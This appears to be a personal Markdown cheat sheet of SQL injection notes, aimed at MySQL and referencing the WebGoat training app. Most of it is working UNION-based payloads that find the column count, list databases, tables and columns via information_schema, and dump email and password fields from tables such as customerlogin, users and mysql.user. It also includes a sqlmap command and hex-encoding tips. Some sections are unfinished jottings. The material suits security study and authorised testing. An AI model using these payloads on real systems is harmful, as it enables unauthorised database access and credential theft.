 SQL Injection UNION Based
=========================

Notes
-----
```
-- requires a space at the end (--+) !!!!!!!!!!!!!!!!!!!!
Depending on identified injection technique use "#" or "--+" for comment.
Should use "--+" when atttack in the URL

Nice cheat sheets
https://www.perspectiverisk.com/mysql-sql-injection-practical-cheat-sheet/
https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/

It is possible to use ASCII HEX encoding for some of the variable names. (Use Burp decoder/encoder)
Must be prefixed with "0x"
When using ASCII HEX, quotes are not required. Do not use them...
"databasename" when encoded would become "0x64617461626173656e616d65"
"tablename" when encoded would become "0x7461626c656e616d65"

Use sqlmap -v 7 to gather more details
sqlmap -r ./xxxxx.txt --batch -v 7 > ./yyyyyyyyyy.txt
-t TRAFFICFILE ?????????
Review results............

Add comments at end of parameter to help identify SQLInjection
Valid request returns no error
theUserName=fzappa
Returns Error
theUserName=fzappa'
Returns No Error (potentially vulnerable)
fzappa--+ORDER+BY+1
```




Get Number of Columns First (Required for further attacks)
----------------------------------------------------------
```sql
# Method 1
# Increment "number" by 1 and monitor response for different responses or errors.
# If the error is returned on "'+ORDER+BY+4#" then the table has 3 columns. 
'+ORDER+BY+1#
'+ORDER+BY+2#
'+ORDER+BY+3#
'+ORDER+BY+4#
'+ORDER+BY+5#
'+ORDER+BY+?............#


# Method 2
# Increment ",NULL" by adding additional ",NULL" and monitor response for different responses or errors.
# If the error is returned on "'+UNION SELECT NULL,NULL,NULL,NULL#" then the table has 3 columns. 
'+UNION+SELECT+NULL#
'+UNION+SELECT+NULL,NULL#
'+UNION+SELECT+NULL,NULL,NULL#
'+UNION+SELECT+NULL,NULL,NULL,NULL#
'+UNION+SELECT+NULL,NULL,NULL,NULL........#
```



Retrieve All Database Names
---------------------------
```
'UNION+ALL+SELECT+NULL,NULL,concat(schema_name)+FROM+information_schema.schemata#
```



Get Current Database Name and Additional Information
----------------------------------------------------
```
'+UNION+ALL+SELECT+database(),NULL,NULL#
@@datadir
@@hostname
@@version
current_role()
database()
found_rows
row_count()
schema()
session_user()
system_user()
user()
version()
```



Get Tables in Database
----------------------
```
# Table has 3 columns as identified above for this reason there are two "NULL" required. 
'+UNION+ALL+SELECT+NULL,NULL,concat(TABLE_NAME)+FROM+information_schema.TABLES+WHERE+table_schema='webgoat_coins'#
```


Get Columns When Table Name is Known
------------------------------------
```
# Table has 3 columns as identified above for this reason there are two "NULL" required. 
'+UNION+ALL+SELECT+NULL,NULL,CONCAT(column_name,'+',column_type)+FROM+INFORMATION_SCHEMA.COLUMNS+WHERE+table_name='products'+AND+table_schema='webgoat_coins'#
```


Get Data from Columns MORE NOTES NEEDED 
---------------------
```
ADD CONCAT technique!!!!!!!!!!!!!!!!!!!
INJECTION MUST RESPECT THE NUMBER OF COLUMNS. USE NULL IF REQUIRED.

'+UNION+SELECT+NULL,email,+password+FROM+customerlogin#
'+UNION+SELECT+answer,email,+password+FROM+customerlogin#


#############TESTING NOTES########################
Get data from other tables
'+UNION+SELECT+username,+password+FROM+users+

Retrieving multiple values within a single column - useful if the application only returns a single column in the response.
'+UNION+SELECT+NULL,username||'~'||password+FROM+users--
```




Get Data From Other Databases
-----------------------------
```
# Need to know the dbname, tablename, and column names.
'UNION+ALL+SELECT+NULL,NULL,concat(0x28,column1,0x3a,column2,0x29)+FROM+dbname.tablename#
'UNION+ALL+SELECT+NULL,NULL,concat(0x28,user,0x3a,password,0x29)+FROM+mysql.user#

```
